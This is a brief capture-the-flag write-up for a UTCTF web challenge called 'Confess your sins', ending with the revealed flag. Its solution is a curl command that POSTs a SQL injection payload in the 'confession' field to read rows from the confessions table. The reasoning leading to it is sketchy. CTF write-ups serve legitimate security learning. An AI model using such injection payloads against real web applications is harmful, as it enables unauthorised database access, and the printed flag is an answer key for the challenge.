

#### Challenge:

Confess your sins! 
http://guppy.utctf.live:5321
By Emma (Cybercowboy on Discord)

---

#### Solution:

- after inspecting the web page we can see that the main image is referenced as `images/img2.png` trying the fetch `images/img1.png` reveals `SQL` injection possibilities




```bash
curl 'http://guppy.utctf.live:5321/confess' -X POST --data-urlencode 'confession=\\"); select text from confessions limit 2; --' 2>/dev/null | grep utflag
```

---

<details><summary>FLAG:</summary>

```
utflag{thanks_for_confessing_your_sins}
```

</details>
<br/>
